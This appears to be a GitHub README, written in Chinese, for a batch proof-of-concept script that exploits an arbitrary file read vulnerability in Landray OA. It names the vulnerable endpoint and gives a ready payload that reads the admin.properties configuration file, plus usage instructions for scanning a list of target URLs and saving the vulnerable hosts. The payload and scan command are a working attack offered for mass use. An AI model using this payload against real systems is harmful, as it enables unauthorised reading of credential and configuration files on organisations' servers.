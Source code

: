 # lanlinOA-upload
蓝凌OA 任意文件读取漏洞 poc脚本--批量

漏洞存在接口：  /sys/ui/extend/varkind/custom.jsp

Payload:var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}

py脚本使用：python3 poc.py -f url.txt(存在漏洞目标url存放在result.txt）
![image](https://github.com/1daomeidan/lanlinOA-upload/assets/143391153/dd7816d6-df8f-4214-82b9-ce803dd6841b)
![image](https://github.com/1daomeidan/lanlinOA-upload/assets/143391153/1b0baa90-a605-4abc-9e0f-e1b353641e32)


